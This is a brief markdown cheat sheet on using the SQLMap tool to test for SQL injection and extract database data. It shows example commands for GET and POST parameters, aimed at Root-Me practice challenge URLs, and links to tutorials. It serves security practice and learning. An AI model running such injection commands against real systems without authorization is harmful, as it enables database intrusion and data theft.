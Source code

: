 # SQLMap

Enumerate and extract data from SQL databases

Download SQLMap [here](http://sqlmap.org/) or clone it on [GitHub](https://github.com/sqlmapproject/sqlmap)


## GET request

SQL-injection in URL's (GET requests):
```bash
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC"
```

## POST request
SQL-injection in POST params (eg. login-forms)
```bash
sqlmap --method=POST -u "http://challenge01.root-me.org/web-serveur/ch9/" --data="login=admin&password=poo"
```

Tutorials:
* [Basic](https://www.youtube.com/watch?v=yPMbb38pwVI)
* [Introduction to SQLMap](https://www.gracefulsecurity.com/introduction-to-sqlmap/)
